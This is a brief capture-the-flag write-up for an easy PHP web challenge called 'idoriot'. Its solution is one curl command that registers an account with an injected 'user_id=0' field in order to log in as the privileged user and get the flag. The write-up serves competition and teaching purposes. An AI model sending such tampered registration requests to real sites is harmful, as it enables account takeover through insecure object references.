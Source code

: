 # idoriot
**Category:** Web
**Difficulty:** Easy
**Author:** tirefire

## Description

Some idiot made this web site that you can log in to. The idiot even made it in php. I dunno.

## Distribution

- link

## Solution

- curl -iL 'http://2023.imaginaryctf.org/idoriot/register.php' -X POST -H 'Content-Type: application/x-www-form-urlencoded' --data-raw 'username=something&password=somethingelse&user_id=0'
- now log in as something:somethingelse and get flag
